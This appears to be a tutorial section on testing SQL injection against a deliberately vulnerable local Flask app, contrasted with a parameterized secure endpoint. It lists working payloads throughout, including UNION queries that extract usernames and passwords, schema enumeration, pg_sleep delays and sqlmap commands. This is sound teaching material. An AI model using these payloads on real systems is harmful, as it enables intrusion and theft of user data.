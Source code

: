 # 2. Testing SQL Injection Vulnerabilities

## 2.1 Overview of SQL Injection Testing
Testing for SQL Injection (SQLi) vulnerabilities involves using techniques and tools to assess whether a web application is susceptible to SQLi attacks. Based on the Python script (`test_sqli.py`) and the Flask application (`app.py`), tests are conducted on a vulnerable endpoint at `http://localhost:5000/user`, utilizing payloads to evaluate various SQLi types, including Error-based, Union-based, Boolean-based, and Time-based. The test script sends HTTP requests with SQLi payloads, analyzing responses (status, response time, and content) to identify vulnerabilities. The Flask application uses unsafe SQL queries (direct string concatenation), simulating real-world vulnerabilities. These testing methods are easily demonstrable in environments such as localhost or platforms like Damn Vulnerable Web Application (DVWA), WebGoat, or TryHackMe.

## 2.2 Testing Normal Input
Testing normal input verifies that the application correctly handles legitimate requests before evaluating malicious payloads. In the `test_sqli.py` script, the `test_normal_input()` function sends a request with the payload `id=1` to `http://localhost:5000/user?id=1`. If the response contains user data (e.g., “ID: 1, Username: admin, Email: admin@example.com”) and no error messages like “No user found” or “Error,” it confirms the application functions as expected. To demonstrate, run the script:
```bash
python test_sqli.py
```
and observe the terminal output. If user data is returned, the script extracts and displays a snippet (e.g., “ID: 1...”). This method is straightforward, requiring only the script execution and terminal inspection, making it ideal for establishing a baseline before testing malicious payloads.

## 2.3 Testing Error-based SQL Injection
The `test_error_based_sqli()` function in the script tests payloads designed to trigger syntax or logical errors to detect SQLi vulnerabilities. The payloads include:
- `1'` (triggers a syntax error).
- `1 AND 1=2` (logical error, should return no data).
- `1 AND 1=1` (logical correctness, should return data).
- `1' OR '1'='1` and `1 OR 1=1` (authentication bypass).
- `1' AND (SELECT 1 FROM non_existent_table)='1` (error due to non-existent table).
When executed, the script sends each payload to `http://localhost:5000/user?id=<payload>`. If the response contains “Error” (e.g., “syntax error at or near”), the script extracts and displays the detailed error message. If the response is “No user found,” it indicates the payload did not return data. To demo, run the script and check the terminal:
```bash
[+] Payload: 1'
[+] SQL Error detected!
[+] Error message: syntax error at or near "'"
```
This method is easy to demonstrate as error messages are clearly displayed, confirming vulnerabilities in the Flask application’s unsafe input handling.

## 2.4 Testing Union-based SQL Injection
The `test_union_based_sqli()` function tests the ability to extract data using `UNION SELECT` statements. The payloads include:
- `1 ORDER BY 1` and `1 ORDER BY 10` (determine the number of columns).
- `1 UNION SELECT 1,2,3` (basic data retrieval check).
- `0 UNION SELECT username, password, email FROM users` (extract sensitive data).
- `0 UNION SELECT table_name, table_schema, 3 FROM information_schema.tables` (discover schema).
- `0 UNION SELECT column_name, data_type, table_name FROM information_schema.columns WHERE table_name='users'` (discover column details).
The script sends requests to `http://localhost:5000/user?id=<payload>` and analyzes the response. If the response includes data like “Username: admin” or “password,” it confirms successful exploitation. To demo, run the script and observe:
```bash
[+] Payload: 0 UNION SELECT username, password, email FROM users
[+] Data extracted successfully!
[+] Potentially sensitive data found in the response!
```
This method is easy to execute as it only requires running the script and checking the terminal or accessing the URL directly in a browser to view the returned data.

## 2.5 Testing Time-based Blind SQL Injection
The `test_time_based_sqli()` function tests Blind SQLi by measuring response times using functions like `pg_sleep()`. The payloads include:
- `1; SELECT pg_sleep(1)--` (1-second delay).
- `1; SELECT pg_sleep(2)--` (2-second delay).
- `1; SELECT pg_sleep(3)--` (3-second delay).
The script measures response time and compares it to the expected delay. If the response time meets or exceeds the delay (e.g., ≥1 second for `pg_sleep(1)`), the vulnerability is confirmed. To demo, run the script and observe:
```bash
[+] Payload: 1; SELECT pg_sleep(3)--
[+] Expected delay: ~3 seconds
[+] SUCCESS: Time-based injection confirmed! Response delayed by 3.12 seconds
```
This method is intuitive as the delay can be measured with a stopwatch or observed in the terminal. In a test environment, access `http://localhost:5000/user?id=1; SELECT pg_sleep(3)--` in a browser and confirm the page loads slowly.

## 2.6 Testing Boolean-based Blind SQL Injection
The `test_boolean_based_sqli()` function tests Blind SQLi based on logical (TRUE/FALSE) responses. TRUE payloads include:
- `1 AND 1=1` (returns data).
- `1 AND 'a'='a'` (returns data).
- `1 AND (SELECT count(*) FROM users) > 0` (checks for the `users` table).
FALSE payloads include:
- `1 AND 1=2` (returns no data).
- `1 AND 'a'='b'` (returns no data).
- `1 AND (SELECT count(*) FROM users) < 0` (returns no data).
The script sends requests and checks responses. If TRUE payloads return data (no “No user found”) and FALSE payloads do not, the vulnerability is confirmed. To demo, run the script and observe:
```bash
[+] Payload: 1 AND 1=1
[+] SUCCESS: Condition evaluated as TRUE, data returned
[+] Payload: 1 AND 1=2
[+] SUCCESS: Condition evaluated as FALSE, no data returned
```
This method is easy to demonstrate by running the script and comparing terminal outputs or testing directly in a browser.

## 2.7 Testing with Automated Tools
In addition to the `test_sqli.py` script, tools like **SQLMap**, **Burp Suite**, and **Nuclei** can automate SQLi testing:
- **SQLMap**: Run `sqlmap -u "http://localhost:5000/user?id=1" --batch` to automatically detect and exploit SQLi vulnerabilities. SQLMap tests all SQLi types (Error-based, Union-based, Blind) and extracts data, making it ideal for demos with detailed terminal output.
- **Burp Suite**: Use Intruder to send multiple payloads from a list (e.g., `', --, OR 1=1`). Modes like “Sniper” or “Cluster bomb” enable rapid parameter testing. For a demo, intercept the request `http://localhost:5000/user?id=1` and test payloads in Repeater.
- **Nuclei**: Run `nuclei -u http://localhost:5000 -t sql-injection.yaml` to scan for SQLi using custom templates. Results are visually clear, making it suitable for demos.
These tools integrate easily into test environments like localhost, with the Flask application (`app.py`) as the target.

## 2.8 Testing Comparison with a Secure Endpoint
The Flask application provides a secure endpoint (`/secure-user`) using parameterized queries, contrasting with the vulnerable `/user` endpoint. To test, modify the script’s `BASE_URL` to `http://localhost:5000/secure-user` and run `test_sqli.py`. Payloads like `1' OR 1=1--` will fail, as the query is safely handled (e.g., `SELECT id, username, email FROM users WHERE id = %s`). For a demo, compare responses:
- `/user?id=1' OR 1=1--` (returns abnormal data).
- `/secure-user?id=1' OR 1=1--` (returns “No user found” or a non-sensitive error).
This method is straightforward, requiring only script execution with different URLs and observing terminal differences.